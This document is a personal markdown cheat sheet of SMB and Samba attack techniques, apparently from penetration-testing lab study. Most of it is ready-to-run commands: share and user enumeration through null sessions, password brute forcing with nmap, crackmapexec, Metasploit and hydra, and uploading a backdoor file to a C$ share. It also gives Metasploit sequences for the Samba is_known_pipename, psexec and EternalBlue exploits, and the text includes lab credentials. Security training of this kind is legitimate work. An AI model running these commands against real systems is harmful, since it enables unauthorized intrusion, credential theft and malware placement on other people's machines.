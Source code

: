 ![](</Images/Pasted image 20231202152423.png>)
![](</Images/Pasted image 20231202152550.png>)
## SMB 
common port 139/445 used for sharing files and peripherals like printers

**`IPC$`** ([`null session connection`](https://learn.microsoft.com/en-us/troubleshoot/windows-server/networking/inter-process-communication-share-null-session)) - with this session, Windows lets guest _anonymous users enumerate the names of domain accounts and network shares_.

### nmap scripts for SMB
```bash
nmap -p445 --script smb-protocols $IP
```

returns version/protocols
```bash
smb-protocols
```

returns some security info about smb
```bash
smb-security-mode
```

enumerates sessions and shows users
```bash
smb-enum-sessions
```

lists differernt shares and current access type. default uses guest account
```bash
smb-enum-shares
```

lists additional users and their account info like password requirements
```bash
smb-enum-users
```

gives overall detailed info on shares
```bash
smb-enum-domains
```

group info
```bash
smb-enum-groups
```

use like ls
```bash
smb-ls
```

brute force login
```bash
--script smb-brute --script-args userdb=users.txt,passdb=passwords.txt
```

also can add args to same scripts using --script-args. this changes the outcome above when using account with more access. ex.
```bash
--script-args smbusername=<user> smbpassword=<password>
```

can also use smbmap for downloading and listing files. Examples:

download: 
```bash
smbmap -u administrator -p smbserver_771 -H 10.3.25.154 --download 'C$\flag.txt'`
```

list director contents: 
```bash
smbmap -u administrator -p smbserver_771 -H 10.3.25.154 -r c$
```

brute force login using msfconsole scanner/smb/smb_login
Good user lists in metasploit-framework/data/wordlists/common...
# Samba for SMB (linux)
--script smb-os-discovery
	shows detail info on smb service
	
## msfconsole

`use auxiliary/scanner/smb/smb_version`
> show options
> set RHOSTS
> then run or exploiot

### Samba v3.5.0 most vulnerable

Exploit to get remote access
`exploit/linux/samba/is_known_pipename`
## nmblookup another tool for samba

>**`nmblookup`** - _NetBIOS over TCP/IP client used to lookup NetBIOS names_
```bash
nmclookup -A $IP
```

## smbmap
> Samba share enumerator. Lists out shares and permissions
> Usage `smbmap -H <ip> -u <user> -p <pass>`

Upload file: 
```bash
smbmap -u administrator -p 'smbserver_771' -H $IP --upload '/root/sample_backdoor' 'C$\sample_backdoor'`
```
Download file:
```bash
smbmap -u administrator -p 'smbserver_771' -H 10.2.21.233 --download 'C$\flag.txt'
```


## smbclient
> Used for enumerating shares or logging in
> usage to list shares `
```bash
smbclient -L //$IP/ -U <username> -N
> ```
>  # -L = list available services
>  # -N = no password prompt

> or `smbclient -L 10.10.233.193 -W WORKGROUP -N`
> usage to login `smbclient //<ip>/<share name> -U <username>`
> specific share use folder/share name after IP
> IPC is a null session. look for this
```bash
smbclient //<ip>/<share name> -U IPC
```
## rpcclient 

>to connect to IPC/Null
```bash
rpcclient -U "" -N 192.126.66.3
```


>once logged on as null (or anyone)...
	`enumdonusers` lists all users and RID
	`lookupnames <name>` will provide more information about
>specific accounts
>`srvinfo` will provide server info

## enum4linux
Tool for enumerating data from Windows and Samba hosts
```bash
enum4linux -a $IP
```
> -a option is to list all which returns a lot of info

```bash
enum4linux -U -o $IP
```
>Attempt to get the userlist (`-U`) and OS information (`-o`) from the target (`192.168.1.200`):

# **SMB for Windows**
## SMB
to mount SMB after discovery
`net use z: \\<ip address>\c$ <password> /user:<username>`
that maps IP C drive to local Z drive

to close SMB `net use * /delete*`

## PsExec
- telnet replacement. Similar to RDP except commands are sent via cmd
- get user/pass via hyrda or metasploit
- nothing uploaded to system
- metaploit uses psexec to open meterpreter but uploads malicous file where python script doesn't. easier to avoid antivirus

run via 
```bash
psexec.py username@ip address and executable` eg. cmd.exe
```
can also be ran without command to log in.

### metasploit option
```bash
use exploit/windows/smb/psexec
set RHOSTS $IP
set SMBUser $USER
set SMBPass $PASS
run
```

## crackmapexec
Can brute force to get credentials or execute 

Examples:
>brute force
```bash
crackmapexec smb $IP -u <username or list> -p <wordlist>
```
## Eternal Blue
affects systems Vista, 7, server 2008, 8.1, server 2012, 10, server 2016
SMBv1 might be vulnerable to eternal blue. Can check with nmap via `--script=smb-vuln-ms17-010'

once confirmed can be done via metasploit or manual python code called AutoBlue-MS17-010
`/auxiliary/scanner/smb/smb_ms17_010`

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS $IP
exploit
```

### AutoBlue
Manual eternal blue exploit. Can be found [here](https://github.com/3ndG4me/AutoBlue-MS17-010.git)

## Enumeration with metasploit
```bash
auxiliary/scanner/smb/smb_enumusers
```

```bash
auxiliary/scanner/smb/smb_enumshares  
```

Brute force login
```bash
auxiliary/scanner/smb/smb_login
```

## Hydra
Can also be used for brute forcing login
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt $IP smb
```
